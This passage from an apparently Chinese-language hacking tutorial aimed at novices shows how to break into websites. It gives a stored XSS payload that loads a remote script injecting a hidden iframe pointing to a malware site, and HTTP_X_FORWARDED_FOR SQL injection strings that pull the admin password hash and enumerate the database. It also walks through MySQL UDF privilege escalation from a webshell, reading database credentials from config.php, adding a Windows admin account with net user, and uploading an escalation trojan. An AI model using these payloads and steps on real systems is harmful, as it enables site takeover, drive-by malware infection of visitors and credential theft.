

访问网站中我们的 BLOG 页面，就能看到如图 13 中弹出的提示框。



这就说明跨站试验成功。下面要动真格的了，现在把跨站的代码从“`<script>alert("nohack")</script>`”改成“`<script src=http://nohack.com/1.js></script>`”提交。nohack.com 是你网站的域名，如果是一级域名可以去掉 www，使代码中的字符尽量短，以免出现插入代码时超过字段长度限制的提示，如图 14。



js 是我们的跨站代码，在《资深黑客渗透内幕答疑》（非安全出品哦！）一书中为大家介绍过各种常见挂马手法，这里就不累述了，1.js 中的内容通常如下：

```javascript
document.write("<iframe style='display:none;' src='http://www.muma.com' width=0 height=0></iframe>")
```

提交完毕，进入我的 BLOG，在源码中能看到已经插入的代码，如图 15。

以上介绍的是 HTTP_X_FORWARDED_FOR 注入的 access 数据库利用方法，HTTP_X_FORWARDED_FOR 注入在 MSSQL 的数据库中一样能用，并且由于 MSSQL 数据库的自身特点——允许多句执行，利用起来更加宽广，只要闭合了代码中自身的语句，然后随便写上想写的语句即可。

我们在工具的 HTTP_X_FORWARDED_FOR 处填入“127.0.0.1’, whather=(select Blog_Admin_Pass from TB_admin where Blog_Admin_Pass='admin')”，这一句的意思是查询 TB_admin 表中用户名为 admin 的 Blog_Admin_Pass 字段的值，并把查询结果放进 whather 字段中。

这是很典型的一个查询语句，输入完成后的样子如图 16。

提交后进入我的 BLOG 地址，能看到在 whather 字段对应的网站页面显示天气处已经成了加密后的管理员密码的 MD5 值，如图 17。

破解这个 MD5 即可得到管理员密码登录后台。除此之外，还可以按照正常 MSSQL 注入套路，用这个注入点爆库名、表名等，只需要将注入时的提交改为：“127.0.0.1’ where user_name='nohack' and 提交的 SQL 语句”。

User_name 是用户字段名，nohack 是你注册的用户名，在其它的注入应用时换作相应的值就可以了。在 and 后面写入你的注入语句，如此处提交“127.0.0.1’ where user_name='nohack' and user>0--”，能在工具中爆出当前数据库管理员的账号，如图 18。

如果要进行其它方面的注入，只需要把 and 后面的语句改成其它语句就可以了。









> www.nohack.cn

## 九、Windows 下的 MYSQL 网站利用

### UDF.dll 提升权限

提升权限对于手中没有 0DAY 的广大菜鸟们来说，是非常困难的，所以，一般都是依靠第三方软件设置不慎存在的问题进行权限提升，运气的成分比较大，毕竟不慎的事情不大可能天天有。对于能接触到 0DAY 的大牛们，提权可谓小菜一碟，谈笑中樯橹灰飞烟灭。不过小菜们不要羡慕，那些大牛们能到如此高层次，也是与自身的努力分不开的，只要你努力地学习，善于动脑，有一天你也可以这样。

曾经有一种 SERV_U 溢出提权的方法大行其道，被广大菜鸟也轻易地接触到，成为一个成功率很高的提权办法。近一两年来随着 SERV 软件版本的不断更新，这个提权漏洞也越来越难成功了。

不过好在老天总是不会忘记菜鸟们的，这不，一个新的成功率很高而入手门槛不高的提升权限方法已经出现了，在一些使用 Windows 运行 MYSQL 数据库的服务器上可能会存在这个漏洞。

这个漏洞的利用方法其实早在 06 年就已经出现，但是只在广大牛人中层层流传，真正大规模出现应用，是在大约 08 年。由此可见菜鸟和高手们接触层次的差距是多么大。

关于这个漏洞形成的原因，好像现在公开的资料中都谈得比较少，很多菜鸟以为是溢出漏洞，其实不然。这个漏洞的形成应该说是由 MYSQL 自身的一个特性造成的，而非漏洞。正因为它不是溢出漏洞，所以存在的时间才比较长，利用的成功率也比较高（溢出漏洞的补丁往往很快会被打上）。

这种提权思路是利用了“跨权限”特性，假设一个名为 nohack 的用户只在数据库 test 中有 INSERT、DELETE 权限，也就是说不具备 INSERT、UPDATE、EXECUTE 等关键权限，但是这个用户可以建立一个函数，这个函数的功能本身就是实现 INSERT、UPDATE、EXECUTE 等操作，那么用户通过操作这个函数，也就获得了在数据库 test 中的 INSERT、UPDATE、EXECUTE 权限。



现在我们拥有了一个 PHP 网站的 webshell，通过目录浏览功能，看到这台服务器使用的是 Windows 系统，说明这是一台在 Windows 环境中运行的 PHP 系统，如图 1。

一般 MYSQL 服务都是以 SYSTEM 权限执行的，如果这样，就可以直接利用 webshell 执行命令添加管理员，然后为所欲为了。我们转到 cmd 执行的界面下，试试执行“net user”这种低权限命令，能成功！说明至少执行命令功能未被破坏，如图 2。

按老思路，建管理员账号，命令为：“net user nohack hack123456 /add”，执行完成之后发现没有建立成功，如图 3。





直接进攻宣告失败，回到“文件管理”，在配置文件 config.php 里看到了以下重要信息，如图 4。

```php
$db_host = 'localhost'; // 主机地址
$db_user = 'abc119'; // 用户名
$db_pass = 'a2008'; // 密码
$db_name = 'site_dm'; // 数据库名
```

从源代码中的注释里可以明白地看到，数据库地址是 localhost，用户名是 abc119，密码是 a2008，库名为 site_dm，这样这个站的数据库就到手了。不过很可惜，这只是一个很普通的账号，连接上数据库后，想要执行添加管理员是不太可能的。

但我们从前面已经知道，这个服务器是在 Windows 系统中，在数据库地址中我们看到地址为 localhost，即本机，正属于在 Windows 下运行 mysql 的情况，正好“对症下药”试试建函数提权。

先通过 webshell 把提权木马传上去，然后访问木马地址，出现了界面，这里需要输入数据库地址、用户名、密码、数据库名这四个关键参数。这里有一点需要注意，刚才我们在 config.php 中看到的数据库地址是 localhost，这里如果填 localhost 是无法连接到数据库的，必须要填 IP 地址！因为 MYSQL 是装在本机上的，这里就填本地 IP 127.0.0.1。把内容填写完毕后就可以点“提交”按钮了，如图 5。





下一步进入了木马的操作界面，要填的地方只有两个，一是导出 dll，二是执行 SQL 命令。在页面下方有使用说明和注意事项，如图 6。

